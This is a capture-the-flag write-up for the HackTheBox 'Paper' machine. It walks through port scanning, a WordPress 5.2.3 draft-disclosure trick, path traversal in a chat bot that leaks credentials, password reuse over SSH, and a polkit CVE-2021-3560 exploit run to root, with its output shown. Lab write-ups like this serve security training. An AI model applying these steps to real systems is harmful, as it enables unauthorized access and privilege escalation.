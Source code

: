 ```yaml
---
description: Paper box from HackTheBox write up.
---
```


# Paper

## Nmap scan

Time for the typical full ports basic Nmap scan and a more detailed one once we know what is open:

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- --min-rate 1000 10.10.11.143    
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-31 06:12 EDT
Nmap scan report for 10.10.11.143
Host is up (0.055s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 30.77 seconds
```

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p22,80,443 -sC -sV 10.10.11.143
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-31 06:13 EDT
Nmap scan report for 10.10.11.143
Host is up (0.051s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-title: HTTP Server Test Page powered by CentOS
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-title: HTTP Server Test Page powered by CentOS
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.77 seconds
```

Looking at the open ports I think we can go for the webpage first.

## HTTP server

We are welcomed by an Apache test webpage, the thing is that Gobuster did not find anything. I tried Nikto to see if it finds something:

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Paper]
└─$ nikto -host http://10.10.11.143/
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.11.143
+ Target Hostname:    10.10.11.143
+ Target Port:        80
+ Start Time:         2022-05-31 06:55:29 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'x-backend-server' found, with contents: office.paper
...
```

That uncommon header `office.paper` is interesting, I tried that as domain to see if there are virtual hosts in place and I was able to access a Wordpress application.

### Wordpress

The Wordpress version is 5.2.3 and I found this comment in one of the posts:

```
Michael, you should remove the secret content from your drafts ASAP, as they are not that secure as you think!
```

Researching a bit I stumbled with this: [https://0day.work/proof-of-concept-for-wordpress-5-2-3-viewing-unauthenticated-posts/](https://0day.work/proof-of-concept-for-wordpress-5-2-3-viewing-unauthenticated-posts/){:target="_blank"} which talk about a vulnerability in this Wordpress version that allows an attacker to get secret contents just by adding `?static=1` to the URL. This is the result:

```
...
# Secret Registration URL of new Employee chat system

http://chat.office.paper/register/8qozr226AhkCHZdyY

# I am keeping this draft unpublished, as unpublished drafts cannot be accessed by outsiders. I am not that ignorant, Nick.
...
```

Cool, we got another virtual host and also a way of registering to the chat application hosted there, let's add the domain to our `hosts` file and let's see how it goes.


### Rocket Chat

After registering a user we can explore this chat service a bit. Looks like there is a bot that let us get files from the system, in theory it only allow us to get file from inside a certain folder but is pretty easy to bypass using relative paths: `../something`. We can't inject command though.

Exploring the folder a bit I was able to leak the bot environment variables the with `../hubot/.env`. Inside that file we have credentials for the bot account: `recyclops:Queenofblad3s!23`, the problem is that the bot can't access the web interface and the API looks like is only reachable from localhost. The thing is... looking at the directory listing we see the user in the machine: `dwight` so maybe it likes to reuse passwords.

I tried `dwight:Queenofblad3s!23` as credentials for the SSH service and I got access!

## In the machine as dwight

To be honest this part was pretty fast. After some basic enumeration I launched Linpeas and immediately CVE-2021-3560 appeared as vector, I used this PoC: [https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation){:target="_blank"}:

```bash
[dwight@paper meh]$ ./CVE-2021-3560.sh -p=123

[!] Username set as : secnigma
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username secnigma...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username secnigma  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using su - secnigma
[!] When prompted for password, enter your password 
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
[dwight@paper meh]$ su - secnigma
Password: 
[secnigma@paper ~]$ sudo bash
[sudo] password for secnigma: 
[root@paper secnigma]#
```

The `root` flag is under `/root/root.txt`.
